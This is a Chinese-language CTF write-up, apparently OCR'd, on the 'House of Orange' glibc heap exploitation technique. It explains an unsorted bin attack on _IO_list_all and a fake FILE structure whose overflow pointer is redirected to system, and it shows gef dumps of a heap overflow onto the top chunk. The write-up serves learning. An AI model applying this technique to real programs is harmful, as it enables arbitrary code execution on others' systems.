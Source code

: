 ```python
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```
一开始通过 `unsorted bin attack` ,修改 `_IO_list_all`为`main_arena+0x58`，,但是我们没法控制所以我们弄了 `chunk`,也就是`fake io file`,`main_arena+0x58 `处的`fp`，通过`fp->chain` 访问` fake io file`,而 `chain` 的偏移刚好是` smallbin[4]`,所以我们设置的大小是`0x60`,`pre_inuse` 要设为1，所以是`0x61`。对于 `fake io file`,我们需要设置一些变量，才能触发`overflow`,我们把`overflow`的函数改为`system`函数

可以一步看一下：
首先build 一个 house,会生成三个 chunk,1. 记录 name 和 price 的 chunk 地址 2. name chunk 3. price chunk
我们首先 build 一个 0x80 的，然后通过堆溢出修改到 topchunk,注意 top chunk 的大小
```python
gef➤  x/16gx 0x556ecb079010-0x10
0x556ecb079000:	0x0000000000000000	0x0000000000000021
0x556ecb079010:	0x0000556ecb0790c0	0x0000556ecb079030
0x556ecb079020:	0x0000000000000000	0x0000000000000091
0x556ecb079030:	0x0000000041414141	0x0000000000000000
0x556ecb079040:	0x0000000000000000	0x0000000000000000
0x556ecb079050:	0x0000000000000000	0x0000000000000000
0x556ecb079060:	0x0000000000000000	0x0000000000000000
0x556ecb079070:	0x0000000000000000	0x0000000000000000
gef➤  
0x556ecb079080:	0x0000000000000000	0x0000000000000000
0x556ecb079090:	0x0000000000000000	0x0000000000000000
0x556ecb0790a0:	0x0000000000000000	0x0000000000000000
0x556ecb0790b0:	0x0000000000000000	0x0000000000000021
0x556ecb0790c0:	0x0000001f00000001	0x0000000000000000
0x556ecb0790d0:	0x0000000000000000	0x0000000000020f31 => top chunk size = 0x20f31
0x556ecb0790e0:	0x0000000000000000	0x0000000000000000
0x556ecb0790f0:	0x0000000000000000	0x0000000000000000
```
覆盖后：
```python
gef➤  x/16gx 0x556ecb079010-0x10
0x556ecb079000:	0x0000000000000000	0x0000000000000021
0x556ecb079010:	0x0000556ecb0790c0	0x0000556ecb079030
0x556ecb079020:	0x0000000000000000	0x0000000000000091
0x556ecb079030:	0x4242424242424242	0x4242424242424242
0x556ecb079040:	0x4242424242424242	0x4242424242424242
0x556ecb079050:	0x4242424242424242	0x4242424242424242
0x556ecb079060:	0x4242424242424242	0x4242424242424242
0x556ecb079070:	0x4242424242424242	0x4242424242424242
gef➤  
```
